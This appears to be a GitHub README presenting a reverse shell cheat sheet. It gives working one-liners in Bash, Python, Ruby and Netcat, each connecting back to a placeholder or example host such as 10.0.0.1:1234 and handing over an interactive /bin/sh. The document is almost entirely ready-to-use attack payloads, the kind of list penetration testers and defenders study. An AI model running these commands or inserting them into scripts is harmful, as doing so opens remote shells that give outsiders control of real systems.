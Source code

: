 # CheetSheet
I'ts most useful Reverse Shell CheetSheet

<h2>Bash</h2>

`bash -i >& /dev/tcp/[LocalHost]/[LocalPort] 0>&1`

<h2>Python</h2>

<p>This was tested under Linux / Python 2.7.</p>

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

<h2>Ruby</h2>

`ruby -rsocket -e'f=TCPSocket.open("[LocalHost]",[LocalPort]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

<h2>Netcat</h2>
`nc -e /bin/sh [LocalHost] [LocalPort]`
